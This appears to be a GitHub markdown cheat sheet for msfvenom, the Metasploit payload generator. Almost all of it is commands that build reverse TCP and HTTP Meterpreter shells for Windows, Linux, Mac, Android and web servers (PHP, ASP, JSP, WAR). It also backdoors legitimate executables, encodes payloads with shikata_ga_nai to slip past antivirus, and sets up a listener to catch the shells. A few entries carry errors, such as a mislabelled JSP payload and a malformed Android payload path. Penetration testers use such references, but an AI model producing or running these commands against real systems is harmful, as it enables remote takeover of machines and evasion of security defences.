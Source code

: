 # msfvenom Cheat Sheet


MsfVenom is a Metasploit standalone payload generator as a replacement for msfpayload and msfencode.

## Creating Binaries
The following create different binaries for meterpreter and reverse TCP shells:

### Creates a Reverse TCP Meterpreter Shell - Payload for Windows

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST={HOST/IP} LPORT={PORT} -f exe > payload.exe
```

### Creates a simple HTTP Payload for Windows
```
msfvenom -p windows/meterpreter/reverse_http LHOST={HOST/IP} LPORT={PORT} -f exe > payload.exe
```

### Creates a simple TCP Shell for Linux
```
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST={HOST/IP} LPORT={PORT} -f elf > payload.elf
```

### Creates a simple TCP Shell for Mac

```
msfvenom -p osx/x86/shell_reverse_tcp LHOST={HOST/IP} LPORT={PORT} -f macho > example.macho
```

### Creates a simple TCP Payload for Android

```
msfvenom -p android/meterpreter/reverse/tcp LHOST={HOST/IP} LPORT={PORT} R > example.apk
```

## Web Payloads

### Creates a Simple TCP Shell for PHP
```
msfvenom -p php/meterpreter_reverse_tcp LHOST={HOST/IP} LPORT={PORT} -f raw > example.php
```

### Creates a Simple TCP Shell for ASP
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST={HOST/IP} LPORT={PORT} -f asp > example.asp
```

### Creates a Simple TCP Shell for Javascrip
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST={HOST/IP} LPORT={PORT} -f raw > example.jsp
```

### Creates a Simple TCP Shell for WAR

```
msfvenom -p java/jsp_shell_reverse_tcp LHOST={HOST/IP} LPORT={PORT} -f war > example.war
```

## Windows Payloads

### Lists all avalaible encoder
```
msfvenom -l encoders
```

### Binds an exe with a Payload (Backdoors an exe)
```
msfvenom -x base.exe -k -p windows/meterpreter/reverse_tcp LHOST={HOST/IP} LPORT={PORT} -f exe > example.exe
```

### Creates a simple TCP payload with shikata_ga_nai encoder
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST={HOST/IP} LPORT={PORT} -e x86/shikata_ga_nai -b ‘\x00’ -i 3 -f exe > example.exe
```

### Binds an exe with a Payload and encodes it
```
msfvenom -x base.exe -k -p windows/meterpreter/reverse_tcp LHOST={HOST/IP} LPORT={PORT} -e x86/shikata_ga_nai -i 3 -b “\x00” -f exe > example.exe
```

## Getting a Metepreter Shell
```
sudo msfconsole
msf > use exploit/multi/handler
msf exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf exploit(multi/handler) > set lhost 192.168.1.123
lhost => 192.168.1.123
msf exploit(multi/handler) > set lport 4444
lport => 4444
msf exploit(multi/handler) > run
```
